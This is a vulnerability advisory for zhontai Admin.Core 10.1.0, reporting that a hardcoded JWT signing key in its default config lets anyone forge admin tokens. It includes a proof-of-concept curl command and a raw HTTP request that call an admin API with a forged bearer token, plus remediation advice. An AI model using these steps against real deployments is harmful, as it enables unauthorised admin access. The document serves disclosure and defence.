

# Admin.Core — Hardcoded JWT securityKey allows forged identity tokens (AC-VULN-001)

| Field | Value |
|-------|-------|
| Vendor | zhontai |
| Product | Admin.Core (中台Admin) |
| Version | 10.1.0 |
| Type | Use of Hard-coded Cryptographic Key |
| CWE | CWE-321 / CWE-798 |
| Authentication | None (offline forge with default securityKey) |
| Severity | Critical |

## Summary

`ConfigCenter/jwtconfig.json` ships a fixed `securityKey`. Tokens are HS256-signed; an attacker can forge admin claims (`uid`/`un`/`ti`) and call authenticated APIs.

## Root cause

Hardcoded JWT signing key committed in default config.

## Exploit / reproduction

Default key in `ConfigCenter/jwtconfig.json` → `securityKey`.

```bash
cd poc_verify
python3 admincore_jwt_forge.py
curl -s 'http://127.0.0.1:18010/api/admin/auth/get-user-info' \
  -H "Authorization: Bearer $(python3 admincore_jwt_forge.py)"
```


## PoC (Yakit)

```http
# Forge: python poc_verify/admincore_jwt_forge.py
GET /api/admin/auth/get-user-info HTTP/1.1
Host: 127.0.0.1:18010
Authorization: Bearer FORGED_JWT_HERE
Connection: close
```

Expected: HTTP 200; success=true; data.user.userName=admin with menus

## Screenshots



## Impact

Full authentication bypass and admin API access when key is unchanged.

## Remediation

Load securityKey from secret store/env; rotate per deployment; disallow defaults in production.

## References

- Local report: `../POC_VERIFICATION_REPORT.md`
- Scripts: `poc_verify/admincore_poc_verify.py`, `admincore_jwt_forge.py`
- Upstream: https://github.com/zhontai/Admin.Core
